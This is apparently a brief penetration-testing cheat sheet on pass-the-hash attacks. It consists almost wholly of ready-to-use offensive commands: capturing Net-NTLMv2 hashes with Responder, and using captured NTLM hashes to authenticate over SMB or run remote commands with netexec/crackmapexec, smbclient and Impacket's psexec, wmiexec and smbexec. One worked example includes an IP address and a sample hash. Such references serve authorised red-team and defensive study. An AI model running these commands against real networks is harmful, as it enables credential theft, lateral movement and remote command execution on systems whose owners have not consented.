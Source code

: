 # Pass The Hash

## Capture Net-NTLMv2 Hashes

Captures Net-NTLMv2 hashes via Responder.

```
responder -I <interface>
```

## Netexec with NTLM Hash

Performs network-wide authentication with an NTLM hash.

```
nxc <protocol> <ip> -u <user> -H <ntlm_hash>
```

* Example: `crackmapexec smb 192.168.1.100 -u admin -H 5e4b6d8f7c7a2b1c3d9e0f1a2b3c4d5e`

## SMBClient with NTLM Hash

Authenticates to SMB using an NTLM hash.

```
smbclient -U <user>%<ntlm_hash> //<ip>/<share>
```

## Impacket PSEXEC with NTLM Hash

Executes commands via SMB using an NTLM hash.

```
impacket-psexec -hashes <lm_hash>:<ntlm_hash> <user>@<ip>
```

## Impacket WMIEXEC with NTLM Hash

Executes commands via WMI using an NTLM hash.

```
impacket-wmiexec -hashes <lm_hash>:<ntlm_hash> <user>@<ip>
```

## Impacket SMBEXEC with NTLM Hash

Executes commands via SMB using an NTLM hash.

```
impacket-smbexec -hashes <lm_hash>:<ntlm_hash> <user>@<ip>
```
